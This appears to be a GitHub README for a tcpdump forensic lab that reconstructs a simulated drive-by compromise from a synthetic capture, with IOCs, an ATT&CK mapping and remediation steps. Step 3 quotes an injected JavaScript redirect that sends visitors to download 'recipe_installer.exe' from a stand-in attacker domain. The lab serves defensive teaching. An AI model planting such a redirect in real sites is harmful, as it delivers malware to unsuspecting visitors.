

# 🕵️ Network Incident Investigation Lab: `tcpdump` Deep-Dive

[](https://opensource.org/licenses/MIT)
[](#)
[](#)

> **Investigator**: Eduardo Souza Marques ([@edusouzamarques](https://github.com/edusouzamarques))  
> **Environment**: macOS / Unix `tcpdump 4.99.4`, `libpcap 1.10.4`, Python 3.12 (`uv` + `scapy`)  
> **Investigation Domain**: Network Protocol Analysis, Web Compromise & Drive-By Malware Staging

---

## 📌 Executive Summary

During routine network perimeter monitoring, anomalous internal traffic was alerted from client host `192.168.1.105`. Preliminary telemetry indicated standard user browsing followed shortly by an outbound connection to an untrusted external server and subsequent executable delivery.

This laboratory provides an end-to-end network forensic investigation conducted strictly from the command line using `tcpdump`. It reconstructs the sequence of events, isolates Indicators of Compromise (IOCs), maps the adversary actions to the **MITRE ATT&CK®** framework, and provides defensive mitigation rules.

---

## 🔬 Incident Scenario & Network Topology



### Network Entities
- **Victim Host**: `192.168.1.105` (MAC: `00:0c:29:4f:8e:35`)
- **Gateway & Local DNS**: `192.168.1.1` (MAC: `00:50:56:ea:bb:01`)
- **Compromised Web Server**: `192.0.2.10` (`yummyrecipesforme.com`)
- **Malicious Stager Server**: `198.51.100.25` (`greatrecipesforme.com`)

---

## 🔍 Step-by-Step `tcpdump` Forensic Walkthrough

All commands below are 100% reproducible against the included packet capture file [`captures/incident_traffic.pcap`](captures/incident_traffic.pcap).

### Step 1: Initial Reconnaissance & High-Level Packet Timeline
To inspect the chronological packet summary without name-resolution delays:

```bash
tcpdump -r captures/incident_traffic.pcap -nn
```

**Observation**:
- Packets `09:53:20.000` to `09:53:20.136`: Communication between `192.168.1.105` and `192.0.2.10`.
- Packets `09:53:20.200` to `09:53:20.320`: Communication switches to `198.51.100.25`.
- Packets `09:53:20.500` to `09:53:20.502`: An anomalous incoming probe on port 445 (SMB).

---

### Step 2: Investigating DNS Queries & Domain Resolutions
Filter strictly for UDP port 53 traffic to reveal which domains the host attempted to reach:

```bash
tcpdump -r captures/incident_traffic.pcap -nn 'udp port 53'
```

**Terminal Output**:
```text
09:53:20.000000 IP 192.168.1.105.53421 > 192.168.1.1.53: 0+ A? yummyrecipesforme.com. (39)
09:53:20.012000 IP 192.168.1.1.53 > 192.168.1.105.53421: 0* 1/0/0 A 192.0.2.10 (76)
09:53:20.200000 IP 192.168.1.105.53422 > 192.168.1.1.53: 0+ A? greatrecipesforme.com. (39)
09:53:20.215000 IP 192.168.1.1.53 > 192.168.1.105.53422: 0* 1/0/0 A 198.51.100.25 (76)
```

**Analysis**:
1. User queried legitimate website: `yummyrecipesforme.com` -> resolved to `192.0.2.10`.
2. Just **188 milliseconds later**, the workstation resolved `greatrecipesforme.com` -> `198.51.100.25`.
3. The near-identical naming scheme strongly suggests **typosquatting** or an automated drive-by redirection domain.

---

### Step 3: Inspecting Initial Web Traffic & Identifying the Redirect
To inspect the HTTP conversation on `192.0.2.10` in cleartext ASCII:

```bash
tcpdump -r captures/incident_traffic.pcap -A -nn -s 0 'host 192.0.2.10 and tcp port 80'
```

**Terminal Evidence (HTTP Response)**:
```html
HTTP/1.1 200 OK
Date: Tue, 07 May 2024 10:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 320
Connection: keep-alive

<!DOCTYPE html><html><head><title>Yummy Recipes</title></head><body>
<h1>Delicious Home Recipes</h1>
<p>Welcome to our kitchen!</p>
<script type="text/javascript">
window.location.replace('http://greatrecipesforme.com/download/recipe_installer.exe');
</script>
</body></html>
```

**Finding**:
The legitimate web server was **compromised** (stored XSS or direct file modification). A script injection forced the client's browser to execute `window.location.replace()`, silently redirecting the user to download an executable named `recipe_installer.exe`.

---

### Step 4: Dissecting the Malicious Payload Transfer
Filter by the malicious server IP (`198.51.100.25`) to analyze the secondary session:

```bash
tcpdump -r captures/incident_traffic.pcap -A -nn -s 0 'host 198.51.100.25 and tcp port 80'
```

**Evidence of Executable Delivery**:
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0
Content-Type: application/x-msdownload
Content-Disposition: attachment; filename="recipe_installer.exe"
Content-Length: 87

MZ..............This program cannot be run in DOS mode.
MALWARE_DROPPER_STAGER_ID_9921
```

**Forensic Insights**:
- Magic Bytes: `MZ` ($0x4D5A$), confirming a **Windows Portable Executable (PE)** file header.
- Delivered file: `recipe_installer.exe` (MIME: `application/x-msdownload`).
- Stager Signature: Identifies payload stager family `ID_9921`.

---

### Step 5: Analyzing Adversary Post-Download Reconnaissance
Filter for connection resets (`RST`) or unexpected incoming traffic:

```bash
tcpdump -r captures/incident_traffic.pcap -nn 'tcp[tcpflags] & (tcp-rst|tcp-syn) != 0'
```

**Terminal Output**:
```text
09:53:20.035000 IP 192.168.1.105.49152 > 192.0.2.10.80: Flags [S], seq 1000, win 64240, length 0
09:53:20.058000 IP 192.0.2.10.80 > 192.168.1.105.49152: Flags [S.], seq 50000, ack 1001, win 65535, length 0
09:53:20.230000 IP 192.168.1.105.49153 > 198.51.100.25.80: Flags [S], seq 2000, win 64240, length 0
09:53:20.252000 IP 198.51.100.25.80 > 192.168.1.105.49153: Flags [S.], seq 80000, ack 2001, win 65535, length 0
09:53:20.500000 IP 198.51.100.25.42100 > 192.168.1.105.445: Flags [S], seq 99999, win 1024, length 0
09:53:20.502000 IP 192.168.1.105.445 > 198.51.100.25.42100: Flags [R.], seq 0, ack 100000, win 0, length 0
```

**Analysis**:
At `09:53:20.500000`, the attacker host `198.51.100.25` attempted an **active SYN probe on port 445 (SMB)** directly against `192.168.1.105`. The host responded with `Flags [R.]` (Reset-Ack), successfully denying unauthenticated lateral SMB connections.

---

## 🛑 Indicators of Compromise (IOCs)

| Artifact Type | Indicator / Value | Description |
| :--- | :--- | :--- |
| **Domain (Legitimate Compromised)** | `yummyrecipesforme.com` | Web server serving injected JavaScript redirect |
| **Domain (Attacker Malicious)** | `greatrecipesforme.com` | Typosquatted redirect destination / payload host |
| **IPv4 Address** | `192.0.2.10` | IP of compromised origin server |
| **IPv4 Address** | `198.51.100.25` | Threat Actor Infrastructure (C2 / Payload Hosting) |
| **Malicious URL** | `http://greatrecipesforme.com/download/recipe_installer.exe` | Stager binary download location |
| **File Name** | `recipe_installer.exe` | Malicious executable dropper |
| **MIME Type** | `application/x-msdownload` | Executable binary header delivery |

---

## 🎯 MITRE ATT&CK® Mapping

| Tactic | Technique ID | Technique Name | Observation in Capture |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | [T1583.001](https://attack.mitre.org/techniques/T1583/001/) | Acquire Infrastructure: Domains | Registration of typosquatted domain `greatrecipesforme.com`. |
| **Initial Access** | [T1189](https://attack.mitre.org/techniques/T1189/) | Drive-by Compromise | JavaScript redirect executed upon visiting compromised site. |
| **Execution** | [T1204.002](https://attack.mitre.org/techniques/T1204/002/) | User Execution: Malicious File | Delivery of binary payload `recipe_installer.exe`. |
| **Discovery** | [T1046](https://attack.mitre.org/techniques/T1046/) | Network Service Discovery | Attacker initiated TCP SYN scan towards port 445 (SMB). |

---

## 🛡️ Remediation & Defensive Actions

1. **Firewall / DNS Sinkholing**:
   - Add `greatrecipesforme.com` and IP `198.51.100.25` immediately to DNS blacklists and perimeter egress blocklists.
2. **Endpoint Isolation & EDR Quarantine**:
   - Isolate host `192.168.1.105` to verify whether `recipe_installer.exe` was executed by the browser or user. Check process execution trees (Sysmon Event ID 1).
3. **Web Server Incident Notification**:
   - Notify administrators of `yummyrecipesforme.com` regarding stored client-side redirection script compromise on their `index.html`.
4. **Perimeter Ingress Tightening**:
   - Ensure TCP port 445 (SMB) and RPC ports remain blocked from external inbound traversing the corporate firewall.

---

## 🚀 How to Reproduce This Lab

```bash
# Clone the repository
git clone https://github.com/edusouzamarques/tcpdump-incident-investigation-lab.git
cd tcpdump-incident-investigation-lab

# Regenerate the synthetic PCAP from source code
uv run --with scapy python3 scripts/generate_lab_traffic.py captures/incident_traffic.pcap

# Inspect with tcpdump
tcpdump -r captures/incident_traffic.pcap -nn
```

For advanced flag and header dissection, consult [`docs/TCPDUMP_CHEATSHEET.md`](docs/TCPDUMP_CHEATSHEET.md).
